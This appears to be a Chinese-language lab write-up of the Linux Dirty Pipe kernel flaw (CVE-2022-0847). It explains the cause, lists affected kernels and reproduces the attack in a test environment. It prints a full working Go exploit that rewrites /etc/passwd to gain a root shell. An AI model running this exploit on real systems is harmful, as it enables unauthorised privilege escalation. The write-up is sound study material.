



## 漏洞介绍

漏洞原文：[https://dirtypipe.cm4all.com/](https://dirtypipe.cm4all.com/)

Linux 内核提权漏洞 CVE-2022-0847，攻击者可以利用该漏洞实现低权限用户提升至 root 权限，且能对主机任意可读文件进行读写。该漏洞在原理上与 CVE-2016-5195"Dirty Cow"脏牛漏洞类似。漏洞危险度为高危（CVSS 评分 7.8）

## 知识点

在 Linux 中，管道（pipe）是一种进程间通信机制。管道有一个读取端和一个写入端。数据从写入端流入，从读取端流出。内核使用 `pipe_buffer` 结构来管理管道中的数据，每个 `pipe_buffer` 通常对应一个内存页。

`splice` 系统调用可以将数据从一个文件描述符移动到另一个文件描述符，而无需将数据从内核空间复制到用户空间。例如，可以将文件中的数据直接"拼接"到管道中，或者从管道拼接到一个网络套接字。这被称为零拷贝操作。

## 漏洞原理

漏洞的根源在于管道缓冲区（`pipe_buffer`）的 `flags` 成员未正确初始化。具体来说，当通过 splice 将数据从文件拼接到管道时，内核会创建一个指向文件页面缓存（page cache）的管道缓冲区。这个缓冲区应该被标记为不可合并（因为页面缓存中的页面不应该被后续的管道写入操作合并），但由于一个初始化缺失，这个缓冲区的 flags 成员可能保留之前的值，其中包括 `PIPE_BUF_FLAG_CAN_MERGE` 标志。

如果这个标志被设置，那么后续向管道写入的数据可能会被合并到现有的缓冲区中，从而直接修改了文件在页面缓存中的内容（因为该缓冲区指向的是文件的页面缓存）。由于页面缓存是内核中用于缓存文件数据的内存，修改页面缓存就相当于修改了文件内容（尽管可能不会立即写回磁盘，但后续读取该文件时会看到修改后的数据）。

## 漏洞版本

5.8 <= Linux Kernel 版本 < 5.16.11 / 5.15.25 / 5.10.102

CentOS 8 默认内核版本受该漏洞影响
CentOS 7 及以下版本不受影响

## 复现

先输入 `uname -a` 确认内核版本。

这里使用 metarget 的漏洞环境（<https://github.com/brant-ruan/metarget>），metarget 需要安装到 ubuntu 18.04 里面（<https://mirrors.aliyun.com/ubuntu-releases/18.04/>）。

复现使用了 PoC（<https://github.com/lxzh/Vulnerability-Exploitation/blob/master/linux-kernel-exploits/CVE-2022-0847/liamg/exploit.go>）。

PoC 通过本漏洞覆盖写 /etc/passwd 密码文件，将 root 帐号密码位 x 置空，即 `root:x:0:0:root:/root:/bin/bash` 改为 `root::0:0:root:/root:/bin/bash`，然后用 `su root` 实现无密码切换到 root 帐号，从而实现提权。

先创建环境：



1. 克隆 metarget 项目：

    ```bash
    git clone https://github.com/brant-ruan/metarget.git
    cd metarget/
    ```

2. 安装依赖：

    ```bash
    pip3 install -r requirements.txt
    ```

3. 一键部署 CVE-2022-0847 漏洞环境：

    ```bash
    sudo ./metarget cnv install cve-2022-0847
    ```

4. 部署完成后，验证内核版本：

    ```bash
    uname -r
    ```

复现前需要回顾 Linux 密码配置文件 /etc/passwd 的格式：



| 字段序号 | 字段名称 | 说明 | 示例 |
| --- | --- | --- | --- |
| 1 | 用户名 | 用户登录时使用的名称。 | root, www-data |
| 2 | 密码指示器 | 历史上存放加密密码，现在通常为 x，表示实际密码已移至 /etc/shadow 文件。 | x |
| 3 | 用户 ID | 系统用来识别用户身份的唯一数字 ID。UID 为 0 的用户是 root 用户，拥有最高权限。 | 0 |
| 4 | 组 ID | 用户初始组的 ID。 | 1001 |
| 5 | GECOS/注释 | 可选的描述性信息，如用户全名、电话号码等。 | John Doe |
| 6 | 家目录 | 用户登录后所在的初始工作目录。 | /home/johndoe |
| 7 | 登录 Shell | 用户登录后默认启动的命令解释器。如果设置为 /sbin/nologin 或 /bin/false，则该用户无法交互式登录。 | /bin/bash |

/etc/passwd 文件是 Linux 系统用户管理的核心。它虽然不再直接存储密码，但系统通过它来关联用户名和 UID，并确定用户的基本环境设置。

此漏洞的本质是任意文件的页面缓存覆盖，但也有一些限制：

1. 攻击者必须具有读取权限（因为它需要使用 `splice()` 将页放入管道）
2. 文件偏移量不能在页面边界上（因为页面上的至少一个字节必须拼接到管道中）
3. 写入不能跨越页面边界（因为内核将为其余部分创建一个新的匿名缓冲区）
4. 文件大小无法修改（因为管道有自己的页面管理器，并且不会告诉页面缓存已经写入了多少数据）

虽然有这些限制，但用来提升用户权限，还是非常够用的，真机、模拟器、docker 镜像只要符合条件的内核版本一定程度上都能利用。

### 复现尝试



可以看到运行 PoC 后，直接在无密码的情况下获取了 root 权限（值得注意的是，这里 PoC 的实现是修改了密码为自定义的 traitor）。

### POC 分析

```go
package cve20220847
import (
    "context"
    "errors"
    "fmt"
    "os"
    "regexp"
    "strconv"
    "strings"
    "syscall"

    "github.com/liamg/traitor/pkg/logger"
    "github.com/liamg/traitor/pkg/payloads"
    "github.com/liamg/traitor/pkg/shell"
    "github.com/liamg/traitor/pkg/state"
    "golang.org/x/sys/unix"
)

// see: https://dirtypipe.cm4all.com/
type cve20220847Exploit struct {
    pageSize int64
    log      logger.Logger
}

func New() *cve20220847Exploit {
    exp := &cve20220847Exploit{
        pageSize: 4096,
    }
    return exp
}

func (v *cve20220847Exploit) IsVulnerable(ctx context.Context, s *state.State, log logger.Logger) bool {

    r := regexp.MustCompile(`[0-9]+\.[0-9]+(\.[0-9]+)*`)
    ver := r.FindString(s.KernelVersion)

    var segments []int
    for _, str := range strings.Split(ver, ".") {
        n, err := strconv.Atoi(str)
        if err != nil {
            return false
        }
        segments = append(segments, n)
    }

    var major int
    var minor int
    var patch int

    if len(segments) < 3 {
        return false
    }

    major = segments[0]
    minor = segments[1]
    patch = segments[2]

    // affects Linux Kernel 5.8 and later versions, and has been fixed in Linux 5.16.11, 5.15.25 and 5.10.102
    switch {
        case major == 5 && minor < 8:
        return false
        case major > 5:
        return false
        case minor > 16:
        return false
        case minor == 16 && patch >= 11:
        return false
        case minor == 15 && patch >= 25:
        return false
        case minor == 10 && patch >= 102:
        return false
    }

    log.Printf("Kernel version %s is vulnerable!", ver)
    return true
}

func (v *cve20220847Exploit) Shell(ctx context.Context, s *state.State, log logger.Logger) error {
    return v.Exploit(ctx, s, log, payloads.Default)
}

func (v *cve20220847Exploit) Exploit(ctx context.Context, s *state.State, log logger.Logger, payload payloads.Payload) error {

    v.log = log

    log.Printf("Attempting to set root password...")
    passwdData, err := os.ReadFile("/etc/passwd")
    if err != nil {
        return err
    }
    backup := string(passwdData)
    if len(backup) > 4095 {
        backup = backup[:4095]
    }
    if string(passwdData[:4]) != "root" {
        return fmt.Errorf("unexpected data in /etc/passwd")
    }
    rootLine := "root:$1$traitor$ELjiH/IyoHuVv5Hxiqam21:0:0::/root:/bin/sh\n"
    if err := v.writeToFile("/etc/passwd", 4, []byte(rootLine[4:])); err != nil {
        return fmt.Errorf("failed to overwrite target file: %w", err)
    }

    defer func() {
        log.Printf("Restoring contents of /etc/passwd...")
        _ = v.writeToFile("/etc/passwd", 1, []byte(backup)[1:])
    }()

    log.Printf("Starting shell...")
    log.Printf("Please exit the shell once you are finished to ensure the contents of /etc/passwd is restored.")
    return shell.WithPassword("root", "traitor", log)
}

func (v *cve20220847Exploit) writeToFile(path string, offset int64, data []byte) error {

    if offset%v.pageSize == 0 {
        return errors.New("cannot write to an offset aligned with a page boundary")
    }

    v.log.Printf("Opening '%s' for read...", path)
    target, err := os.Open(path)
    if err != nil {
        return fmt.Errorf("failed to read target file: %w", err)
    }

    r, w, err := v.dirtyThatPipe()
    if err != nil {
        return fmt.Errorf("failed to create dirty pipe: %w", err)
    }
    defer func() {
        _ = r.Close()
        _ = w.Close()
    }()

    v.log.Printf("Splicing data...")
    offset--
    spliced, err := syscall.Splice(int(target.Fd()), &offset, int(w.Fd()), nil, 1, 0)
    if err != nil {
        return fmt.Errorf("splice error: %w", err)
    }
    if spliced <= 0 {
        return fmt.Errorf("splice failed (%d)", spliced)
    }

    v.log.Printf("Writing to dirty pipe...")
    if n, err := w.Write(data); err != nil {
        return fmt.Errorf("write failed: %w", err)
    } else if n < len(data) {
        return fmt.Errorf("write partially failed - %d bytes written", n)
    }

    v.log.Printf("Write of '%s' successful!", path)
    return nil
}

func (v *cve20220847Exploit) dirtyThatPipe() (r *os.File, w *os.File, err error) {

    v.log.Printf("Creating pipe...")
    r, w, err = os.Pipe()
    if err != nil {
        return nil, nil, fmt.Errorf("create failed: %w", err)
    }

    v.log.Printf("Determining pipe size...")
    size, err := unix.FcntlInt(w.Fd(), syscall.F_GETPIPE_SZ, -1)
    if err != nil {
        return nil, nil, fmt.Errorf("fcntl error: %w", err)
    }
    v.log.Printf("Pipe size is %d.", size)

    v.log.Printf("Filling pipe...")
    written := 0
    for written < size {
        writeSize := size - written
        if int64(writeSize) > v.pageSize {
            writeSize = int(v.pageSize)
        }
        n, err := w.Write(make([]byte, writeSize))
        if err != nil {
            return nil, nil, fmt.Errorf("pipe write failed: %w", err)
        }
        written += n
    }

    v.log.Printf("Draining pipe...")
    read := 0
    for read < size {
        readSize := size - read
        if int64(readSize) > v.pageSize {
            readSize = int(v.pageSize)
        }
        n, err := r.Read(make([]byte, readSize))
        if err != nil {
            return nil, nil, fmt.Errorf("pipe read failed: %w", err)
        }
        read += n
    }

    v.log.Printf("Pipe drained.")
    return r, w, nil
}
```

分析一下 POC 的主要利用逻辑（Exploit）：

```go
// 目标: 修改/etc/passwd文件，添加root用户
rootLine := "root:$1$traitor$ELjiH/IyoHuVv5Hxiqam21:0:0::/root:/bin/sh\n"
```

核心漏洞利用步骤：

**步骤 1：准备特殊管道（dirtyThatPipe）**

```go
// 创建管道并填充数据
for written < size {
    w.Write(make([]byte, writeSize))
}
// 然后排空管道，但保留PIPE_BUF_FLAG_CAN_MERGE标志
```

**步骤 2：利用漏洞写入（writeToFile）**

```go
// 关键操作序列:
// 1. syscall.Splice() - 将目标文件的一个字节移动到管道中
// 2. w.Write() - 写入数据，由于标志位错误，数据会直接写入页面缓存
```

POC 限制条件：

- 偏移量不能是页面对齐的
- 不能跨页面边界写入
- 不能改变文件大小

利用效果：这个 POC 通过以下方式实现权限提升：

- 在 /etc/passwd 中添加新的 root 用户
- 密码哈希对应密码 "traitor"
- 然后启动具有 root 权限的 shell
